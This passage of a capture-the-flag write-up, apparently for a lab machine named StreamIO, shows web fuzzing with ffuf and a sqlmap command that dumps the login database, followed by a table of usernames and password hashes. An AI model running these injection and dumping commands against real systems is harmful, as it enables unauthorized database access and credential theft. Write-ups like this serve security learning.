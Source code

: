In the port 443 we can found a login as **https://streamio.htb/login.php**. 

# Foothold

We can try fuzzing in the page, finding the following:

```console
zero@pio$ ffuf -c -w /usr/share/seclists/Discovery/Web-Content/common.txt -u 'https://streamio.htb/FUZZ'

	ADMIN                   [Status: 301, Size: 150, Words: 9, Lines: 2, Duration: 74ms]
	Admin                   [Status: 301, Size: 150, Words: 9, Lines: 2, Duration: 67ms]
	Images                  [Status: 301, Size: 151, Words: 9, Lines: 2, Duration: 62ms]
	admin                   [Status: 301, Size: 150, Words: 9, Lines: 2, Duration: 72ms]
	css                     [Status: 301, Size: 148, Words: 9, Lines: 2, Duration: 76ms]
	favicon.ico             [Status: 200, Size: 1150, Words: 4, Lines: 1, Duration: 77ms]
	fonts                   [Status: 301, Size: 150, Words: 9, Lines: 2, Duration: 66ms]
	images                  [Status: 301, Size: 151, Words: 9, Lines: 2, Duration: 77ms]
	index.php               [Status: 200, Size: 13497, Words: 5027, Lines: 395, Duration: 76ms]
	js                      [Status: 301, Size: 147, Words: 9, Lines: 2, Duration: 79ms]
```

If we try sqlmap we can get a user table with password:

```console
zero@pio$ sqlmap -u 'https://streamio.htb/login.php' --data 'username=test&password=test' --batch --dump
```

We will get the following table:

```
+----+----------+----------------+---------------------------------------+
| id | is_staff | username       | password                              |
+----+----------+----------------+---------------------------------------+
|  3 | 1        | James          | c660060492d9edcaa8332d89c99c9239      |
|  4 | 1        | Theodore       | 925e5408ecb67aea449373d668b7359e      |
|  5 | 1        | Samantha       | 083ffae904143c4796e464dac33c1f7d      |
|  6 | 1        | Lauren         | 08344b85b329d7efd611b7a7743e8a09      |
|  7 | 1        | William        | d62be0dc82071bccc1322d64ec5b6c51      |
|  8 | 1        | Sabrina        | f87d3c0d6c8fd686aacc6627f1f493a5      |
|  9 | 1        | Robert         | f03b910e2bd0313a23fdd7575f34a694      |
| 10 | 1        | Thane          | 3577c47eb1e12c8ba021611e1280753c      |
| 11 | 1        | Carmon         | 35394484d89fcfdb3c5e447fe749d213      |
| 12 | 1        | Barry          | 54c88b2dbd7b1a84012fabc1a4c73415      |
| 13 | 1        | Oliver         | fd78db29173a5cf701bd69027cb9bf6b      |
| 14 | 1        | Michelle       | b83439b16f844bd6ffe35c02fe21b3c0      |
| 15 | 1        | Gloria         | 0cfaaaafb559f081df2befbe66686de0      |
| 16 | 1        | Victoria       | b22abb47a02b52d5dfa27fb0b534f693      |
| 17 | 1        | Alexendra      | 1c2b3d8270321140e5153f6637d3ee53      |
| 18 | 1        | Baxter         | 22ee218331afd081b0dcd8115284bae3      |
| 19 | 1        | Clara          | ef8f3d30a856cf166fb8215aca93e9ff      |
| 20 | 1        | Barbra         | 3961548825e3e21df5646cafe11c6c76      |
| 21 | 1        | Lenord         | ee0b8a0937abd60c2882eacb2f8dc49f      |
| 22 | 1        | Austin         | 0049ac57646627b8d7aeaccf8b6a936f      |
| 23 | 1        | Garfield       | 8097cedd612cc37c29db152b6e9edbd3      |
| 24 | 1        | Juliette       | 6dcd87740abb64edfa36d170f0d5450d      |
| 25 | 1        | Victor         | bf55e15b119860a6e6b5a164377da719      |
| 26 | 1        | Lucifer        | 7df45a9e3de3863807c026ba48e55fb3      |
| 27 | 1        | Bruno          | 2a4e2cf22dd8fcb45adcb91be1e22ae8      |
| 28 | 1        | Diablo         | ec33265e5fc8c2f1b0c137bb7b3632b5      |
| 29 | 1        | Robin          | dc332fb5576e9631c9dae83f194f8e70      |
| 30 | 1        | Stan           | 384463526d288edcc95fc3701e523bc7      |
| 31 | 1        | yoshihide      | b779ba15cedfd22a023c4d8bcf5f2332      |
| 33 | 0        | admin          | 665a50ac9eaa781e4f7f04199db97a11      |
+----+----------+----------------+---------------------------------------+
```